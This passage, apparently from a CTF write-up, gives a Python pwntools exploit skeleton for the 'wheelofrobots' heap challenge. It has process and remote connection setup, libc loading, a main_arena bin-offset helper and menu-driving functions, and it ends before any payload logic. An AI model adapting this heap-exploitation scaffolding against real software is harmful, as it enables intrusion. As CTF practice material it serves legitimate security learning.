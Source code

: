 代码如下

```python
from pwn import *
context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
if args['DEBUG']:
    context.log_level = 'debug'
context.binary = "./wheelofrobots"
robots = ELF('./wheelofrobots')
if args['REMOTE']:
    p = remote('127.0.0.1', 7777)
else:
    p = process("./wheelofrobots")
log.info('PID: ' + str(proc.pidof(p)[0]))
libc = ELF('./libc.so.6')


def offset_bin_main_arena(idx):
    word_bytes = context.word_size / 8
    offset = 4  # lock
    offset += 4  # flags
    offset += word_bytes * 10  # offset fastbin
    offset += word_bytes * 2  # top,last_remainder
    offset += idx * 2 * word_bytes  # idx
    offset -= word_bytes * 2  # bin overlap
    return offset


def add(idx, size=0):
    p.recvuntil('Your choice :')
    p.sendline('1')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))
    if idx == 2:
        p.recvuntil("Increase Bender's intelligence: ")
        p.sendline(str(size))
    elif idx == 3:
        p.recvuntil("Increase Robot Devil's cruelty: ")
        p.sendline(str(size))
    elif idx == 6:
        p.recvuntil("Increase Destructor's powerful: ")
        p.sendline(str(size))


def remove(idx):
    p.recvuntil('Your choice :')
    p.sendline('2')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))


def change(idx, name):
    p.recvuntil('Your choice :')
    p.sendline('3')
    p.recvuntil('Your choice :')
    p.sendline(str(idx))
    p.recvuntil("Robot's name: \n")
    p.send(name)


def start_robot():
    p.recvuntil('Your choice :')
    p.sendline('4')

```